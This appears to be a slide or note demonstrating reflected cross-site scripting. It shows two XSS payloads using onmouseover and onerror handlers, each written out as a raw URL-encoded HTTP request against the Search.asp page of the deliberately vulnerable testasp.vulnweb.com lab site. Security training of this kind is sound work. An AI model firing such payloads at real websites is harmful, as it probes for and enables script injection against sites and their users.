

Code:

Payload : <x onmouseover=alert(1)>hover this!
GET /Search.asp?tfSearch=%3cx%20onmouseover%3dalert(1)%3ehover%20this!%20abcd HTTP/1.1
Host: testasp.vulnweb.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://testasp.vulnweb.com/Search.asp?tfSearch=avcd
Cookie: ASPSESSIONIDSQSBSCTQ=JIODEECCGFHFEEFDPDFPIOJC
Upgrade-Insecure-Requests: 1

Payload : <image src/onerror=prompt(8)>
GET /Search.asp?tfSearch=%3cimage%20src%2fonerror%3dprompt(8)%3eabcd HTTP/1.1
Host: testasp.vulnweb.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://testasp.vulnweb.com/Search.asp
Cookie: ASPSESSIONIDSSTDQCSQ=PADHAAPCIPAPMKEJEEJBMFAC
Upgrade-Insecure-Requests: 1